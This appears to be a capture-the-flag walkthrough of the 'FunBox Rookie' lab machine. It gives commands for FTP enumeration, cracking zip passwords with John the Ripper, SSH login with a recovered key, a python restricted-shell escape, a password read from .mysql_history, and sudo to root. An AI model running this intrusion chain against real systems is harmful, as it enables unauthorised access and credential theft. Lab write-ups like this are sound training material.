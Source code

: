 *FunBox Rookie*
**RECON**
---
**Ip Search**   
Apache Server  
![image19](https://user-images.githubusercontent.com/66635295/159421830-8e052a02-4fb1-42a7-bb76-a29384f7eb43.png)  


**Nmap Scan**  
<pre>nmap -sC -sV 192.168.52.107 </pre>  
-safe scripts -service version  
Anonymous FTP Login available, various visible zip files   
![image14](https://user-images.githubusercontent.com/66635295/159421862-50889fc0-271d-4119-b938-c878c7eebef6.png)  

**ENUMURATION**
---
<pre>ftp 192.168.52.107</pre>  
<pre>Name: anonymous </pre>  
<pre>Password: anonymous@domain.com </pre>    
![image5](https://user-images.githubusercontent.com/66635295/159422223-b78bc143-e7ca-4dad-8f8c-f0a2e94064af.png)  
**Grab zip Files**  
<pre> mget homer.zip john.zip tom.zip </pre>    
![image15](https://user-images.githubusercontent.com/66635295/159422555-864c3dc4-7503-48f3-93d4-69ae9dc76c4b.png)  
**Inspect File**  
Password locked id_rsa keys  
![image18](https://user-images.githubusercontent.com/66635295/159422579-2c509021-3e9f-4e53-9e29-198100978dda.png)  
**Change zip to Crack Passwords**    
 <pre> zip2john homer.zip homer.hash </pre>  
![image17](https://user-images.githubusercontent.com/66635295/159422865-d16a8a8c-a474-4ff5-aa2a-568b52fd8a9b.png)  
**Insall word list**  
<pre> rockyou.txt </pre>  
![image12](https://user-images.githubusercontent.com/66635295/159422892-ee67dea5-9ace-43a8-af9c-eed5e8b6236e.png)  
**Organize files into one directory**   
![image4](https://user-images.githubusercontent.com/66635295/159422979-7c4dfbd1-289d-4f12-8ac8-58bea37d4f15.png)  
**John the  Ripper**  
<pre> john --wordlist=$rockyou tom.hash </pre>  
![image3](https://user-images.githubusercontent.com/66635295/159423177-7d3650d4-892e-4514-af1f-9eec7a14fefa.png)  
**Extract tom.zip**  
<pre> iubire </pre>  
![image2](https://user-images.githubusercontent.com/66635295/159425066-154a9577-fa2b-4aae-a58f-105cf2776c57.png)  
Id_rsa key  
![image6](https://user-images.githubusercontent.com/66635295/159425574-e65d557f-e725-46bb-893a-acf582b37d25.png)  

**PRIVILEGE ESCALATION**
---
**SSH**  
<pre>  ssh -i id_rsa tom@192.168.52.107 </pre>  
Success logged in as tom  
![image10](https://user-images.githubusercontent.com/66635295/159425641-8fdceb4d-d295-4c66-86f0-880bfd29e74f.png)  
**Flag**  
<pre> cat local.txt  </pre>  
![image8](https://user-images.githubusercontent.com/66635295/159425808-c0e979c9-8554-4c2d-8349-9dbe9f98c006.png)  
Restricted Shell  
![image11](https://user-images.githubusercontent.com/66635295/159425861-3fc58b29-97e9-4023-aee7-03cd929aac54.png)  
**Checking Sudo Privileges**  
Tom can run all commands definitely worth pursuing  
![image9](https://user-images.githubusercontent.com/66635295/159426027-b8ee5bde-ba1b-4a8b-bf64-10696f627734.png)  
**Remove Shell Restrictions**  
<pre> python3 -c ‘import os; os.system(“/bin/bash”);’ </pre>  
![image7](https://user-images.githubusercontent.com/66635295/159426463-79d3e971-ccc3-4a57-a84a-ecc6ce5c9a92.png)  
**Check for hidden files**  
<pre>ls -la </pre>  
![image16](https://user-images.githubusercontent.com/66635295/159426482-c8a1c784-fca5-4e7a-b79c-423ee045c0f4.png)  
**Reading mysql_history**  
<pre> cat .mysql_history  </pre>  
Reveals password  
![image1](https://user-images.githubusercontent.com/66635295/159426632-25601f14-984b-4dce-b627-3014407b34a1.png)  

**ROOT ESCALATION**
---
**Root Flag**  
<pre> sudo su  </pre>  
<pre> xx11yy22!  </pre>  
<pre> cat  proof.txt  </pre>  
![image13](https://user-images.githubusercontent.com/66635295/159426848-a3dc6b3f-670c-4b69-a82c-aa354baa4b95.png)


